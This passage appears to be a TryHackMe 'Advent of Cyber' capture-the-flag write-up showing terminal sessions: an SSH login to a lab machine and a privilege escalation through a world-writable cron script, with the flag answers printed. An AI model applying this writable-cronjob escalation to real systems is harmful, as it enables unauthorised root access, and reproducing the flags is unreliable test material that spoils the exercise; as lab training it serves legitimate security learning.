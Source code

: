 ```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ssh sam@10.10.163.132 -p 4567
The authenticity of host '[10.10.163.132]:4567 ([10.10.163.132]:4567)' can't be established.
ECDSA key fingerprint is SHA256:/54HkiaVZN46gtAAt5bxFK6rEKyPHEGbkJ1sddd3lpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.163.132]:4567' (ECDSA) to the list of known hosts.
sam@10.10.163.132's password:
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
sam@ip-10-10-163-132:~$ ls
flag1.txt
sam@ip-10-10-163-132:~$ cat flag1.txt
THM{dec4389bc09669650f3479334532aeab}
sam@ip-10-10-163-132:~$
```

`THM{dec4389bc09669650f3479334532aeab}`

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```
sam@ip-10-10-163-132:~$ ls -l /home
total 12
drwxr-xr-x 3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx 2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x 6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
sam@ip-10-10-163-132:~$ ls -l /home/scripts/
total 8
-rwxrwxrwx 1 ubuntu ubuntu 14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root    5 Dec 19  2019 test.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ nano /home/scripts/clean_up.sh
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ ls -l /home/ubuntu/
total 4
-r-----r-- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
sam@ip-10-10-163-132:~$ cat /home/ubuntu/flag2.txt
THM{b27d33705f97ba2e1f444ec2da5f5f61}
sam@ip-10-10-163-132:~$
```

`THM{b27d33705f97ba2e1f444ec2da5f5f61}`
